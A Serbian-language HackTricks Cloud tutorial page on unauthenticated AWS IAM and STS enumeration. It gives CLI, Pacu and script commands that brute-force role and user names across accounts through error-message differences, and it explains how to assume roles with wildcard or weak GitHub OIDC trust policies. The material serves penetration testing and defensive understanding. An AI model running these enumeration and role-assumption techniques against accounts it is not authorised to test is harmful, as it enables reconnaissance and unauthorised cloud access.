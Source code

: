 # AWS - IAM & STS Neautentifikovana Enumeracija

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Obuka AWS Red Team Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Obuka GCP Red Team Ekspert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Enumeracija Uloga i Korisničkih Imena u nalogu

### ~~Pretpostavi Ulogu Brute-Force~~

{% hint style="danger" %}
**Ova tehnika više ne funkcioniše** jer, bez obzira na to da li uloga postoji ili ne, uvek dobijate ovu grešku:

`Došlo je do greške (AccessDenied) prilikom pozivanja operacije AssumeRole: Korisnik: arn:aws:iam::947247140022:user/testenv nije ovlašćen da izvrši: sts:AssumeRole na resursu: arn:aws:iam::429217632764:role/account-balanceasdas`

Možete **testirati ovo pokretanjem**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Pokušaj da **pretpostavite ulogu bez potrebnih dozvola** izaziva AWS poruku o grešci. Na primer, ako niste ovlašćeni, AWS može vratiti:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Ova poruka potvrđuje postojanje uloge, ali ukazuje da njena politika preuzimanja uloge ne dozvoljava vaše preuzimanje. Nasuprot tome, pokušaj da se **preuzme nepostojeća uloga dovodi do druge greške**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Zanimljivo je da je ova metoda **razlikovanja između postojećih i nepostojećih uloga** primenljiva čak i između različitih AWS naloga. Sa važećim AWS ID-jem naloga i ciljanom listom reči, može se enumerisati uloge prisutne u nalogu bez suočavanja sa bilo kakvim inherentnim ograničenjima.

Možete koristiti ovaj [skript za enumeraciju potencijalnih principala](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) zloupotrebljavajući ovaj problem.

### Politike poverenja: Brute-Force Cross Account uloge i korisnici

Konfigurisanje ili ažuriranje **politike poverenja IAM uloge uključuje definisanje koji AWS resursi ili usluge su dozvoljeni da preuzmu tu ulogu** i dobiju privremene akreditive. Ako navedeni resurs u politici **postoji**, politika poverenja se **uspešno** čuva. Međutim, ako resurs **ne postoji**, generiše se **greška**, koja ukazuje na to da je pružen nevažeći principal.

{% hint style="warning" %}
Imajte na umu da u tom resursu možete navesti cross account ulogu ili korisnika:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Ovo je primer politike:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

To je **greška** koju ćete pronaći ako koristite **ulogu koja ne postoji**. Ako uloga **postoji**, politika će biti **sačuvana** bez grešaka. (Greška se odnosi na ažuriranje, ali takođe funkcioniše i prilikom kreiranja)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Možete automatizovati ovaj proces sa [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Naš korišćenje [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Uloga `admin` korišćena u primeru je **uloga u vašem nalogu koja će biti imitirana** od strane pacu da kreira politike koje su mu potrebne za enumeraciju

### Privesc

U slučaju da je uloga loše konfigurisana i omogućava bilo kome da je preuzme:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Napadač bi to mogao samo pretpostaviti.

## Treća strana OIDC federacija

Zamislite da ste uspeli da pročitate **Github Actions workflow** koji pristupa **rolu** unutar **AWS**.\
Ova poverenja može omogućiti pristup roli sa sledećom **politikom poverenja**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Ova politika poverenja može biti ispravna, ali **nedostatak više uslova** treba da vas navede da joj ne verujete.\
To je zato što prethodnu ulogu može preuzeti **BILO KO sa Github Actions**! Trebalo bi da navedete u uslovima i druge stvari kao što su naziv organizacije, naziv repozitorijuma, okruženje, grana...

Još jedna potencijalna pogrešna konfiguracija je da **dodate uslov** kao što je sledeći:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Napomena da **zvezdica** (\*) pre **dvotačke** (:). Možete kreirati organizaciju kao što je **org\_name1** i **pretpostaviti ulogu** iz Github akcije.

## Reference

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
